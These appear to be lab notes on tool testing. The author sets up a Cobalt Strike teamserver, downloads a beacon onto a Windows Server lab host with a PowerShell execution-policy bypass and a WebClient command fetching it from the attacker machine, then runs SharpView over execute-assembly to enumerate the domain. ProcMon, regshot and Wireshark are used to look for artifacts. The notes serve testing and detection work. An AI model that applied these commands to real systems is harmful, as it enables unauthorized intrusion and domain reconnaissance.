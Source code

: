 ```yaml
---
created_date: 25 September 2023
updated_date: 
type: tool testing
---
```

Cobalt strike server setup
```powershell
[root💀/opt/cobaltstrike] [172.16.153.176] [2023-09-25 11:57:14] 
 └─╼ # ./teamserver 172.16.153.176 'passphrase' custom-cobalt/Profiles/custom.profile
```
![[Pasted image 20230925120030.png]]
Starting cobaltstrike server
```powershell
[root💀/opt/cobaltstrike] [192.168.146.129] [2023-09-25 12:08:23] 
 └─╼ # ./cobaltstrike 
```
![[Pasted image 20230925121405.png]]
Navigating to `/root/cobaltpayloads` 
```powershell
[root💀~/cobaltpayloads] [192.168.146.129] [2023-09-25 12:11:20] 
 └─╼ # ls
Beacon_http_80_x64.dll           Beacon_http_80_x86.dll
Beacon_http_80_x64.exe           Beacon_http_80_x86.exe
Beacon_http_80_x64.ps1           Beacon_http_80_x86.ps1
Beacon_http_80_x64.svc.exe       Beacon_http_80_x86.svc.exe
Beacon_http_80_x64.xprocess.bin  Beacon_http_80_x86.xprocess.bin
Beacon_http_80_x64.xthread.bin   Beacon_http_80_x86.xthread.bin
```
Setting up python3 server
```bash
[root💀~/cobaltpayloads] [192.168.146.129] [2023-09-25 12:15:11] 
 └─╼ # python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
![[Pasted image 20230925121639.png]]
On Windows Server 2019 BLIZZARD.local pulling payload onto to get beacon on Cobalt Strike
```powershell
powershell -ep bypass

powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.146.129:8080/Beacon_x64.exe', 'beacon.exe')
```
![[Pasted image 20230925133615.png]]
Took first regshot
![[Pasted image 20230925133723.png]]
Ran SharpView.exe that was already on build under poshc2.exe
```powershell
beacon> execute-assembly /usr/share/poshc2/resources/modules/SharpView.exe Get-NetDomain
```
![[Pasted image 20230925134036.png]]
```powershell
beacon> execute-assembly /usr/share/poshc2/resources/modules/SharpView.exe Get-ForestDomain
```
![[Pasted image 20230925134314.png]]
```powershell
beacon> execute-assembly /usr/share/poshc2/resources/modules/SharpView.exe Get-DomainUser -Properties name, MemberOf | fl
```
![[Pasted image 20230925141119.png]]
```powershell
beacon> execute-assembly /usr/share/poshc2/resources/modules/SharpView.exe Get-DomainGPO
```
![[Pasted image 20230925141329.png]]
```powershell
beacon> execute-assembly /usr/share/poshc2/resources/modules/SharpView.exe Get-NetGPO
```
![[Pasted image 20230925141441.png]]


Have to build a 4.5.2 net framework

ProcMon filters used:
- **CreateFile**: When a process wants to create a file.
- **WriteFile**: When a process writes data to a file.
- **SetRenameInformationFile**: When a rename operation occurs on a file.
- **SetDispositionInformationFile**: When a file deletion occurs on a file.
- **RegCreateKey**: When registry key is created.
- **RegSetValue**: When the data for value is set in the registry
- **RegDeleteKey**: When a key gets deleted from the registry.
- **RegDeleteValue**: When a value gets deleted from the registry.
- **TCP Connect, TCP Receive, UDP Send, UDP Receive**: Process is Sending / Receiving a TCP or UDP connection.
- **Load Image:** When a process loads any DLL’s / Executables.
- **Process Create:** When a process creates a process.
- **CreatePipe:** When a process creates a Pipe.
![[Pasted image 20230925144255.png]]
Nothing of interest added/changed. Everything running isnative minus beacon.exe which is my cobalt strike beacon.
![[Pasted image 20230925144758.png]]
Pulling SharpView.exe from Gobots to Windows Server 2019 to change .NET framework in Visual Studio 2019

Pulled Entire zipped SharpView Directory off github on WIndows Server 2019 to change .NET framework in Visual Studio 2019
`https://github.com/tevora-threat/SharpView/tree/master`
![[Pasted image 20230926105042.png]]
Navigated  to Visual Studo 2019 and changed the .net framework to 4.0

Create a new Visual Studio 2019 Project as a Class Library .Net Framework
![[Pasted image 20230926110357.png]]
Set Desired framework, in this case .NET Framework 4
![[Pasted image 20230926110449.png]]
Once in the project with the proper framework open the zip folder
![[Pasted image 20230926110709.png]]
Double click the .sln file ( Visual Studio Solution File )
Press the Start Button to start code in release version.
New SharpView.exe with .NET 4.0 framework is now loaded in the highlighted file path.
`C:\Users\Administrator\Downloads\SharpView-master\SharpView-master\SharpView\bin\Release`
![[Pasted image 20230926104927.png]]
Tranferring this .exe version to Gobots
Moving the new SharpView.exe to the python folder ( python isnt an environmental variable - need system to do ) 
Location of Python executable:
C:\Users\Administrator\AppData\Local\Programs\Python\Python311
![[Pasted image 20230926114507.png]]
Hosting Python server
Navigated to web server on Windows Server 2019
![[Pasted image 20230926114631.png]]
Starting Cobalt Strike

```powershell
powershell -ep bypass
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.146.129:8080/http_x64.exe', 'beacon.exe')
```

Sha256sum of actual .NET 4.0 Framework SharpView.exe
```powershell
[root💀~/tooltesting] [192.168.146.129] [2023-09-26 12:08:02] 
 └─╼ # sha256sum SharpView.exe
813d096c7e106e2695794fb5d009c2dc760961f4e69046d78ff215fcb415b6c8  SharpView.exe
```
Wireshark Follow TCP Stream
- Nothing of relevance, just beacon calling out and RST'ing
![[Pasted image 20230926125123.png]]
Images from new SharpView.exe
```powershell
beacon> execute-assembly /root/tooltesting/SharpView.exe Get-NetDomain
# gets network domain controllers
```
![[Pasted image 20230926132428.png]]
```powershell
beacon> execute-assembly /root/tooltesting/SharpView.exe Get-ForestDomain
```
![[Pasted image 20230926132652.png]]
```powershell
beacon> execute-assembly /root/tooltesting/SharpView.exe Get-DomainUser -Properties name, MemberOf | fl
```
![[Pasted image 20230926132729.png]]
```powershell
execute-assembly /root/tooltesting/SharpView.exe Get-DomainGPO
```
![[Pasted image 20230926133106.png]]

```powershell
beacon> execute-assembly /root/tooltesting/SharpView.exe Get-NetGroup | select samaccountname, admincount, description
```

![[Pasted image 20230926133141.png]]